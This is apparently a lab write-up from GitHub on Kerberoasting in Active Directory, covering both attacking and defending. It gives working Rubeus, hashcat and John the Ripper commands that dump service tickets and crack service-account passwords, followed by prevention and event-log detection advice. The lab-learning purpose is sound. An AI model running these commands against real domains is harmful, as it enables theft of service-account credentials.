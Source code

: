 # Kerberoasting Lab

## Objective

Perform a Kerberoasting attack on the Windows 10 machine, find the user account 'svc-iam' then crack password on Kali Linux.
Connect to DC1 and investigate Event Manager to find the attack. 

## What is Kerberoasting

Kerberoasting is a post-exploitation attack in Active Directory where attackers exploit the Service Principal Name (SPN) behavior in Kerberos authentication. By requesting a Kerberos TGS service ticket, which is encrypted with the service account's NTLM password hash, attackers can perform offline password cracking. If the ticket is successfully cracked, it reveals the service account's password. The effectiveness of Kerberoasting depends on the strength of the service account's password and the encryption algorithm used, with AES being more secure but slower to crack compared to RC4 and DES.

## Skills Learned
- Run a Kerberoasting attack
- Filtering the Windows Event Viewer logs
- Cracking spn.txt files with John The Ripper and Hashcat

## Tools Used
- Windows Event Log
- John The Ripper
- Hashcat
- Rubeus
- Powershell
- Kali Linux

## Attack

First we need to RDP to the windows machine

```
xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution
xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution /drive:share,/home/XXXXXXX
```

Next we need to open up a command prompt and CD to our downloads folder where the file we need to run in located.

```
cd C:\Users\bob\Downloads
```

Next we run Rubeus with the kerberoast action without specifying a user, it will extract tickets for every user that has an SPN registered

```
.\Rubeus.exe kerberoast /outfile:spn.txt
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/0fb964be-9b69-4f53-9647-f782f6ff7ca6)

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/242e4811-2275-4811-9368-9e803666e11c)

Now time to get cracking!! We need to move this file over to Kali to crack the password. We can either use the 'smbclient' command or we can specify the current user's home directory as a shared drive when we first connected.
I will use both Hashcat and John the ripper just for funzies.

### Hashcat

```
hashcat -m 13100 -a 0 spn.txt /usr/share/wordlists/rockyou.txt
```

__Command breakdown:__
__<br>hashcat:__   _This is the executable program that performs the password cracking._
__<br>-m 13100:__   _This specifies the hash type. The 13100 mode is for cracking Kerberos 5 TGS-REP (Ticket Granting Service Reply) tickets, which is often used in Active Directory environments._
__<br>-a 0:__   _This specifies the attack mode. The 0 mode indicates a dictionary attack, where Hashcat will use a list of potential passwords from a specified wordlist._
__<br>spn.txt:__   _This is the input file containing the hashes you want to crack. In this context, spn.txt likely contains Kerberos TGS-REP hashes._
__<br>/usr/share/wordlists/rockyou.txt:__   _This is the path to the wordlist file. The rockyou.txt file is a well-known wordlist that contains millions of common passwords and is often used in password cracking attacks._



![image](https://github.com/Matt4llan/HackTheBox-Kerberoasting/assets/156334555/e3079a53-f861-48d5-b76e-e24c2b76edae)
![image](https://github.com/Matt4llan/HackTheBox-Kerberoasting/assets/156334555/b442e61d-45e8-4bbe-a6ce-564923fe32d5)


### John The ripper

```
sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt --pot=results.pot
```

![image](https://github.com/Matt4llan/HackTheBox-Kerberoasting/assets/156334555/a11d021f-4190-43cd-91aa-b85a2af71b46)

## Prevention

The success of password cracking attacks on service accounts depends on the password's strength. To mitigate this risk, limit the number of accounts with SPNs, disable unused ones, and enforce strong passwords, ideally 100+ random characters. Group Managed Service Accounts (GMSA) are highly recommended as they are automatically managed and have passwords rotated by Active Directory, though their use is limited to certain applications. Whenever possible, implement GMSAs and avoid assigning SPNs to unnecessary accounts, regularly cleaning up invalid SPNs.

## Detection

### HoneyPot

A honeypot user is an excellent detection option for an AD environment. This user should have no real purpose, ensuring no regular service tickets are generated. Any service ticket request for this account is likely malicious and worth investigating. To be effective, the account should be relatively old, have a strong but unchanged password (ideally 2+ years, preferably 5+), and possess some privileges to attract advanced adversaries. It should also have a registered SPN that appears legitimate, such as those for IIS or SQL accounts. Any activity involving this account, whether successful or failed logon attempts, should trigger an alert due to its suspicious nature.

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/cfaa4ad1-6a92-45bd-ad4a-2a55028acc73)


### Investigate

Lets RDP to the DC1 box and check out the Event Viewer and see if we can see the attack.

When a TGS is requested, AD generates event log ID 4769, but this ID is also generated for any user attempting to connect to a service, resulting in a high volume of logs that make detection difficult. However, if all applications in the environment support only AES and generate only AES tickets, event ID 4769 becomes a valuable alert indicator. If RC4 tickets are generated, which is not the default configuration, it should trigger an alert and warrant further investigation.

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/f85ef293-fe1d-4ad5-b0bd-6fc556e4a9d2)

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/49875951-1476-4afd-8137-9c1d7031428d)




